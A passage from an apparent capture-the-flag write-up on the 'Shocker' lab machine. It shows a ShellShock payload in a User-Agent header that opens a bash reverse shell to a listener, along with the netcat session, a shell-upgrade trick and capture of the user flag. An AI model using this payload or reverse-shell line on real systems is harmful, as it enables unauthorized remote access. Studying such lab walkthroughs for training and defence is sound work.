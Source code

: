 
First, it’s worth noting that technically this is executing code on the
scanned machine. So while it’s just an `echo`, it’s still RCE, so it’s worth
knowing that and making sure you’re within scope / laws / ethics.

The result is multiple prints of the two strings, showing that ShellShock here
is successful in `Referer`, `Cookie`, and `User-Agent`.

### Shell

I’ll start a `nc` listener on tcp 443, and then send the following:

    
    
    User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    

The web request hangs, and I get a shell at `nc`:

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 45314
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$
    

I’ll get a full shell with the normal trick:

    
    
    shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    shelly@Shocker:/usr/lib/cgi-bin$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    shelly@Shocker:/usr/lib/cgi-bin$
    

And get `user.txt`:

    
    
    shelly@Shocker:/home/shelly$ cat user.txt
    2715b1ad************************
    

## Shell as root

### Enumeration

I also manually check `sudo -l` before uploading any kind of enumeration
script, and it pays off here:

    
    